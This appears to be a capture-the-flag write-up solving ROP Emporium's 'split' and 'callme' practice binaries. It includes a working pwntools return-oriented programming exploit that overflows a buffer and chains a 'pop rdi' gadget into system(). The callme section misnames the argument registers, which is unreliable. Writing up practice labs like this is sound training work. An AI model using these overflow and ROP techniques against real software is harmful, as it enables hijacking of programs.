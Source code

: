 ## split

For this challenge, we will need to do more than just call a single function. We are provided with the command string to open the flag file, but it is not used as an argument to `system()`.

![](/assets/images/ropemporium/split_useful_string.png)

We are also provided with a call to `system("/bin/ls")`.

![](/assets/images/ropemporium/split_useful_function.png)

The solution is to load the address of the necessary string into `rdi`, then return to the call to `system()`. To do this, we need the gadget `pop rdi; ret`, which we can find at address `0x4007c3`.

```python
from pwn import *

pop_rdi = 0x4007c3
string_addr = 0x601060
system_addr = 0x40074b

chal = process("./split")
send_str = b'a'*40 + p64(pop_rdi) + p64(string_addr) + p64(system_addr)

print(chal.recvuntil(b'>'))
chal.sendline(send_str)
print(chal.recvall())
```

## callme

This challenge tells us that we must call three functions called `callme_one`, `callme_two`, and `callme_three` with arguments `0xdeadbeefdeadbeef`, `0xcafebabecafebabe`, and `0xd00df00dd00df00d`.

The `callme` functions are located in the external library `libcallme.so`. We can find calls to each of the `callme` functions in the `.plt` section. To call the functions, we must find a way to load the correct arguments into `rsi`, `rdi`, and `rax`, then return to the address in the `.plt` section where they are called. 

To make things easier for us, the challenge provides us with "useful gadgets" that load in the correct arguments. We must return to this gadget before each function call.
